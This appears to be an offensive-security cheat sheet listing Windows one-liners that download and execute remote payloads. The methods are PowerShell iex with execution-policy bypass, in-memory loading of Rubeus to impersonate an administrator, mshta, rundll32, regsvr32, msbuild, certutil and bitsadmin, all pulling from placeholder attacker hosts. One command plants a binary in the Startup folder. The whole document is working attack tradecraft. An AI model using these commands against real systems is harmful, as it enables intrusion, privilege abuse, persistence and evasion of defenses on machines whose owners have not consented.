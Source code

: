 # Windows - Download and execute methods | Download files location
> C:\Users\<username>\AppData\Local\Microsoft\Windows\Temporary Internet Files\
> C:\Users\<username>\AppData\Local\Microsoft\Windows\INetCache\IE\<subdir>
> C:\Windows\ServiceProfiles\LocalService\AppData\Local\Temp\TfsStore\Tfs_DAV
## Powershell
>>>From HTTP-server
```powershell
>powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://webserver/payload.ps1')|iex"
# Download only
> (New-Object System.Net.WebClient).DownloadFile("http://10.10.10.10/PowerUp.ps1", "C:\Windows\Temp\PowerUp.ps1")
> Invoke-WebRequest "http://10.10.10.10/binary.exe" -OutFile "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\binary.exe"
# Download and run Rubeus, with arguments
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.10.10/Rubeus.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[Rubeus.Program]::Main("s4u /user:web01$ /rc4:1d77f43d9604e79e5626c6905705801e /impersonateuser:administrator /msdsspn:cifs/file01 /ptt".Split())
# Execute a specific method from an assembly 
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.10.10/lib.dll')
$assem = [System.Reflection.Assembly]::Load($data)
$class = $assem.GetType("ClassLibrary1.Class1")
$method = $class.GetMethod("runner")
$method.Invoke(0, $null)
```
>>>From Webdav-server
```powershell
>powershell -exec bypass -f \\webdavserver\folder\payload.ps1
```
## Cmd
```powershell
>cmd.exe /k < \\webdavserver\folder\batchfile.txt
```
## Cscript / Wscript
```powershell
>cscript //E:jscript \\webdavserver\folder\payload.txt
```
## Mshta
```powershell
>mshta vbscript:Close(Execute("GetObject(""script:http://webserver/payload.sct"")"))
```
~
```powershell
>mshta http://webserver/payload.hta
```
```powershell
>mshta \\webdavserver\folder\payload.hta
```
## Rundll32
```powershell
>rundll32 \\webdavserver\folder\payload.dll,entrypoint
```
```powershell
>rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";o=GetObject("script:http://webserver/payload.sct");window.close();
```
## Regasm / Regsvc @subTee
```powershell
>C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /u \\webdavserver\folder\payload.dll
```
## Regsvr32 @subTee
```powershell
>regsvr32 /u /n /s /i:http://webserver/payload.sct scrobj.dll
```
```powershell
>regsvr32 /u /n /s /i:\\webdavserver\folder\payload.sct scrobj.dll
```
## Odbcconf
```powershell
>odbcconf /s /a {regsvr \\webdavserver\folder\payload_dll.txt}
```
## Msbuild
```powershell
>cmd /V /c "set MB="C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe" & !MB! /noautoresponse /preprocess \\webdavserver\folder\payload.xml 
>payload.xml & !MB! payload.xml"
```
## Certutil
```powershell
>certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.dll  >C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil /logfile= /LogToConsole=false /u payload.dll
```
```powershell
>certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.exe & payload.exe
```
## Bitsadmin
```powershell
>bitsadmin /transfer mydownloadjob /download /priority normal http://<attackerIP>/xyz.exe C:\\Users\\%USERNAME%\\AppData\\local\\temp\\xyz.exe
```
## References

- [arno0x0x - Windows oneliners to download remote payload and execute arbitrary code](https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/)
